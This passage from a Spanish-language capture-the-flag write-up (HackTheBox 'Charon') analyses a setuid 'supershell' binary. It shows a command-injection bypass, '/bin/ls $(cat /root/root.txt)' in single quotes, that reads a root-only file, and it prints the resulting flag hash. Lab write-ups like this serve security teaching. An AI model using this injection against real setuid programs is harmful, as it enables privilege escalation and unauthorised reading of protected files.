 Se está llamando a otra función que se encarga de comparar la cadena que se le pasa como primer parámetro. En caso de que este vacía, contenga alguno de esos caracteres especiales o el tamaño sea igual el valor de la cadena pasado a entero, el programa no avanza. Si todo va bien, se hará una llamada al ```/bin/ls```

<img src="/writeups/assets/img/Charon-htb/34.png" alt="">

Si mi input de usuario es ```/bin/ls```, entonces se ejecutará el comando. En caso contrario, se llama a la función ```__stack_chk_fail()```, que a su vez hace referencia a ```halt_baddata()```

<img src="/writeups/assets/img/Charon-htb/35.png" alt="">

Esto se encarga de ir sumando valores a un buffer. Nada relevante. Como solo se está valorando lo que se le pasa como primer argumento, podría intentar en el segundo ejecutar un comando a nivel de sistema. Pero solo se le puede pasar uno. En caso de que se produzca un error, si interpreta como argumento ese comando puedo incluir archivos locales

```null
decoder@charon:/$ supershell /bin/ls $(whoami)
Supershell (very beta)
usage: supershell <cmd>
```

Para bypassearlo, puedo encapsularlo todo entre comillas simples

```null
decoder@charon:/$ supershell '/bin/ls $(cat /root/root.txt)'
Supershell (very beta)
++[/bin/ls $(cat /root/root.txt)]
/bin/ls: cannot access 'fb23613b3e8a8435392b44501b962b93': No such file or directory
```
